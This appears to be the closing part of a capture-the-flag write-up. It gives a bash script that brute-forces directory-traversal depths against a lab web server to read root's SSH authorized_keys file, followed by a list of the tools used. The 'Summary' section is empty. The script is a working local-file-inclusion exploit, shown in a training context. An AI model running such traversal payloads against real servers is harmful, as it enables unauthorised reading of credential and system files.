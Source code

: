 **LFI Exploitation Script:**
```bash
#!/bin/bash

url="http://host.docker.internal:8080"
string="../"
payload="/assets/"
file="root/.ssh/authorized_keys" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

![root flag](./images/screenshot20.png)

## Tools Used

- **Nmap** - Port scanning and service enumeration
- **Directory enumeration tools** - Web content discovery
- **Python** - Payload development and testing
- **Pymatgen library** - Target vulnerable component
- **Hashcat** - Password cracking
- **SQLite3** - Database extraction

## Summary
